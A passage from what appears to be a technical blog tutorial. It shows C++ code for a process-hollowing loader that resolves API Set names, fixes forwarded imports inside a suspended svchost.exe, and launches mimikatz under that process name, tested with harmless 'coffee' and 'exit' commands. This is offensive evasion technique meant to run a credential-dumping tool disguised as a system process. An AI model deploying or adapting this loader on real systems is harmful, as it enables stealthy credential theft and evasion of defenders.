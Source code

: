         }
        ApiMapEntry++;
    }
    _err("Error in resolving API Set name: %ws \r\n", apiToResolve);
    return FALSE;
}
{% endhighlight %}   

Now let's modify our function `fixImports`:

{% highlight C++ %}
bool fixImports(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, LPPROCESS_INFORMATION pi, PVOID allocAddrOnTarget, DWORD offsetRdata, HANDLE mod)
{
    ...
                    if (forwardedLib && forwardedName)
                    {

                        PWSTR forwardedLibWstr = strToWstr(forwardedLib);

                        MODULEENTRY32W fwMe32 = getModuleEntry(mod, forwardedLibWstr);
                        if (fwMe32.modBaseAddr == 0)
                        {
                            PWSTR apiSetResolved = nullptr;
                            resolveAPISet(forwardedLibWstr, apiSetResolved);
                            fwMe32 = getModuleEntry(mod, apiSetResolved);
                            if (fwMe32.modBaseAddr == 0)
                            {
                                _err("Error in resolving the forwarded lib %ws\r\n", forwardedLibWstr);
                                return FALSE;
                            }
                        }

                        HMODULE fwLib = LoadLibraryA(forwardedLib);
                        offset = (PBYTE)addrFunc - (PBYTE)fwLib;
                        addrFix = (ULONGLONG)((PBYTE)fwMe32.modBaseAddr + offset);
                        _dbg("[FORWARDED FUNCTION] %s is a forwarded function in %ws @ 0x%p\r\n", functionName->Name, fwMe32.szModule, fwMe32.modBaseAddr);
                    }
    ...
}
{% endhighlight %}

Let's find out if our mimikatz successfuly works. To test, we will change slightly the function `launchSuspendedProcess`, to pass arguments to the command line. We will attempt to create a log file with mimikatz and execute the commands `coffee` and `exit`.

{% highlight C++ %}
bool launchSusprendedProcess(LPSTR processName, LPPROCESS_INFORMATION& pi)
{
    STARTUPINFOA si = { 0 };
    if (!CreateProcessA(processName, (PCHAR)"C:\\Windows\\System32\\svchost.exe \"log C:\\Temp\\test.log\" \"coffee\" \"exit\"", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, &si, pi))
    {
        _err("[-] ERROR: Cannot create process %s", processName);
        return FALSE;
    }
    _dbg("[+] Launching process %s with PID: %d\r\n", processName, pi->dwProcessId);
    return TRUE;
}
{% endhighlight %}